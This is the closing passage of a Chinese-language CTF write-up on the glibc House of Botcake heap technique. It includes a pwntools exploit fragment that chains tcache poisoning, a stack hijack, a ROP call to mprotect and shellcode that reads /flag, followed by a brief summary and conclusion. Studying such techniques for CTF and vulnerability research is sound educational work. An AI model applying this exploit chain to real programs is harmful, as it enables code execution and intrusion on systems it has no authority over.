 ```python
[*] Tcache Poinsoning --> Hijack Stack --> ROP --> Shellcode
'''
dele(5)
dele(2)
add(0x50,'\0'*0x28+p64(0x91)+p64(stack_addr-0x120)+p64(0)) # 2
add() # 5
'''
[~] Gets to input more data (Optional)
'''
payload = flat([
    rdi,stack_addr-0x108,libc.sym.gets
])
add(0x80,payload) # 7
'''
[*] Enable Shellcode
'''
mmp = flat([
    rdi,((stack_addr)>>12)<<12,rsi,0x2000,rdx_r12,7,0,libc.sym.mprotect,rdi,0,rsi,stack_addr,rdx_r12,0x100,0,libc.sym.read,jmp_rsi
])
sleep(0.5)
sl(mmp)
sleep(0.5)
sl(asm(shellcraft.cat('/flag')))

p.interactive()
```

### 小结

通过本题，我们了解到了当题目限制较多时， House of botcake 的稍复杂的利用方法，对 House of botcake 有了更深刻的认知。

0x04 总结
=======

以上就是本文的所有主要内容。

Glibc 一直在更新，防护手段一直在升级，无论是作为一个 CTF 参赛选手还是二进制漏洞研究者，掌握的利用手法多点并不是什么坏事。House of Botcake 给我们高版本 libc 下的 Tcache Double Free 提供了非常不错的思路。诚然，很多时候解决问题的途径并不止一条，我们往往可以通过多种手段来解决同一问题，但下次再遇到 Tcache Double Free 的时候，不妨考虑一下尝试 House of Botcake，满足条件的话，多次任意分配 Chunk 能够帮助节省很多时间，助力快速解出赛题。